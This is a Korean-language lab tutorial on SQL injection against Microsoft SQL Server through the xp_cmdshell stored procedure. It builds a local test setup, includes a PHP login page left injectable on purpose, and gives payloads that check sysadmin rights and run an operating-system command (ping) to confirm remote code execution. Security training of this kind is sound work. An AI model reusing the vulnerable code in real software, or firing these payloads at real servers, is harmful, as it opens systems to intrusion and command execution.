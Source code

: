# Stored Procedure SQL Injection

xp_cmdshell이라는 [Stored Procedure](#https://ko.wikipedia.org/wiki/%EC%A0%80%EC%9E%A5_%ED%94%84%EB%A1%9C%EC%8B%9C%EC%A0%80)를 호출하여 원격 코드 실행을 할 수 있다.

# **INDEX**

**1. [환경 구성](#환경-구성)**

**2. [Stored Procedure](#Stored-Procedure)**

 - [xp_cmdshell](#xp_cmdshell)


# **환경 구성**

| Type          | Version                   |
| :---          | :---                      |
| OS            | Windows 10 20H2 19042.508 |
| Architecture  | x86-64                    |
| IP            | 192.168.0.41              |
| MSSQL         | 2019 Express              |
| SSMS          | 18.11.1                   |

[MSSQL Server](#https://www.microsoft.com/ko-kr/sql-server/sql-server-downloads)를 다운받은 후 설치하자.

설치 완료 후 SSMS도 설치하자.

![](images/2022-06-14-18-31-21.png)

SSMS를 실행 후 MSSQL로 연결하자.

![](images/2022-06-14-18-53-26.png)

test라는 테이블을 만들고 id와 pw라는 컬럼을 만든 후 데이터를 넣자.

```sql
USE [test]
GO

INSERT INTO [dbo].[user]([id],[pw])
     VALUES
           ('admin','helloworld')
GO
```

취약한 서버 환경을 위하여 xp_cmdshell을 사용할 수 있는 지 확인하자.

```sql
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell'
```

value 컬럼의 값이 0이라면, 다음의 쿼리를 통해 값을 바꾸자.

```sql
EXEC sp_configure 'show advanced options', 1
GO

RECONFIGURE
GO

EXEC sp_configure 'xp_cmdshell', 1
GO

RECONFIGURE
GO
```

Web/WAS는 Ubuntu로 구성하였다.

| Type          | Version                   |
| :---          | :---                      |
| OS            | Ubuntu 20.04.3 LTS        |
| Architecture  | x86-64                    |
| IP            | 192.168.0.58              |
| apache2       | 2.4.41-4ubuntu3.10        |
| php           | 7.4.3                     |

apache, php와 데이터베이스를 사용하기 위해 관련 패키지를 설치하자.

```sh
root@ubuntu:~# apt -y install apache2 php
root@ubuntu:~# apt -y install php-pear php-dev unixodbc-dev
root@ubuntu:~# pecl install sqlsrv
root@ubuntu:~# pecl install pdo_sqlsrv
root@ubuntu:~# curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
root@ubuntu:~# curl https://packages.microsoft.com/config/ubuntu/20.04/prod.list > /etc/apt/sources.list.d/mssql-release.list
root@ubuntu:~# apt-get update
root@ubuntu:~# apt-get -y install msodbcsql18
```

이후 php.ini를 수정하여 데이터베이스 관련 함수를 사용할 수 있도록 하자.

```ini
extension=sqlsrv.so
extension=pdo_sqlsrv.so
```

SQLi(SQL Injection)에 취약한 페이지를 생성하자.

```php
<?php
        if (isset($_GET['userid']) && isset($_GET['password'])) {
                $option = array("Database" => "test", "UID" => "root", "PWD" => "root", "Encrypt" => true, "TrustServerCertificate"=> true);
                $conn = sqlsrv_connect("192.168.0.41, 3306", $option);
                if ($conn === false) die(print_r( sqlsrv_errors(), true));
                $sql = "SELECT id,pw FROM [user] WHERE id='".$_GET['userid']."' and pw='".$_GET['password']."'";
                $result = sqlsrv_query($conn, $sql);
                if (!$result) die(print_r( sqlsrv_errors(), true));
                $row = sqlsrv_fetch_array($result, SQLSRV_FETCH_ASSOC);
                if ($row) echo "Welcome ".$row['id'];
                else echo "Login Failed";
                sqlsrv_free_stmt($result);
                sqlsrv_close($conn);
        } else {
?>
<html>
        <body>
                <form action="/index.php" method="get">
                        <label>ID : </label><input type="text" name="userid" required>
                        <label>PW : </label><input type="password" name="password" required>
                        <input type="submit" value="login">
                </form>
        </body>
</html>
<?php
        }
?>
```

# **Stored Procedure**

## **xp_cmdshell**

xp_cmdshell을 사용하기 위해서는 접속 계정이 해당 권한을 가지고 있어야 한다.

UNION SELECT를 이용하여 권한을 확인해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' UNION SELECT is_srvrolemember('sysadmin'),2-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+UNION+SELECT+is_srvrolemember%28%27sysadmin%27%29%2C2--&password=123 |

결과는 다음과 같다.

	Welcome 0

0이라면 권한이 없다는 것이므로, SMSS를 통해서 권할을 부여하자.

![](images/2022-06-14-21-30-38.png)

다시 권한을 확인해보자.

	Welcome 1

RCE여부를 확인하기 위해 Wireshark를 띄우고 ping명령을 실행하게 하자.

| data	| value	|
| :---	| :--- 	|
| ID	| '; EXEC master.sys.xp_cmdshell 'ping 8.8.8.8'-- |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27%3B+EXEC+master.sys.xp_cmdshell+%27ping+8.8.8.8%27--&password=123 |

결과는 다음과 같다.

![](images/2022-06-14-21-32-40.png)